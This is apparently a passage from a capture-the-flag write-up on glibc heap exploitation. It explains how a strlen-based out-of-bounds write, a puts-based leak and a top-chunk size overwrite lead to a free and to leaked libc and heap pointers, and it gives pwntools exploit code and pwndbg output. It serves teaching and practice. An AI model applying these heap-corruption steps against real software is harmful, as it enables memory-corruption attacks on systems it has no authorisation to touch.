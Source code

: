 

#### Sumary

- `Write out of bounds` can be achieved due to `strlen()` including `meta-data` from `chunks` aligned next to the data in the controlled chunk. 
  - `8-byte alignment` allows for "infinite" write, as long as the `8-byte` aligned segment does not start on a `null-byte`.
- `Read out of bounds` can be achieved in combination with the `write out of bounds` primitive, as `puts()` prints until it reaches a `null-byte`.
- A call to `free` can be triggered by overwriting the `top chunk size` and requesting a large amount of memory. Because it's none-contiguous, the old `top-chunk` is freed.



### Getting information leaks

Referring to [sourceware's MallocInternals](https://sourceware.org/glibc/wiki/MallocInternals), some things stand out. 

When looking at the diagram for `free'd` `chunks`, one might notice the pointers inside of the `chunk`:

![free chunk](https://i.imgur.com/0SLLUDJ.png)



Of importance here is the `fwd` and `bck`, which is the Forward pointer and the Backwards pointer used by `malloc()` (reference [Mallocinternals](https://sourceware.org/glibc/wiki/MallocInternals) if those terms confuse you).



However after the call to free was achieved, the observant pwner might have noticed that some addresses appeared in the `free'd` `chunk`.
Upon calling `malloc()` a second time (which now will malloc from the `unsorted bin` entry, even more addresses are left behind: 

```python
size = 0x400 - 0x290 - 8                # Calculate the size needed to align top chunk
info("Mallocing %s bytes" % hex(size))
malloc(size, b'A'*size)                 # malloc() and fill with data to allow for strlen out of bounds write

info("Overwriting top chunk size with 0xc01")
edit(0, b'B'*size+p16(0xc01)+p8(0))     # Overwrite top chunk size

malloc(0x1000, b'GiveMeAFree')          # malloc() large data to trigger BRK()
                                        # And cause a free on previous

malloc(0x61, b'\x41')					# Initiate more leaks
```



Running `xinfo` on the `addresses` in `gdb` reveals the following:

```
pwndbg> vis
[...]
0x5ee62f9ee400	0x4242424242424242	0x0000000000000071	BBBBBBBBq.......
0x5ee62f9ee410	0x00007e9148598241	0x00007e91485982a0	A.YH.~....YH.~..
0x5ee62f9ee420	0x00005ee62f9ee400	0x00005ee62f9ee400	.../.^...../.^..
0x5ee62f9ee430	0x0000000000000000	0x0000000000000000	................
0x5ee62f9ee440	0x0000000000000000	0x0000000000000000	................
0x5ee62f9ee450	0x0000000000000000	0x0000000000000000	................
0x5ee62f9ee460	0x0000000000000000	0x0000000000000000	................
0x5ee62f9ee470	0x0000000000000000	0x0000000000000b71	........q.......	 <-- unsortedbin[all][0]
0x5ee62f9ee480	0x00007e9148597cc0	0x00007e9148597cc0	.|YH.~...|YH.~..
[...]
```
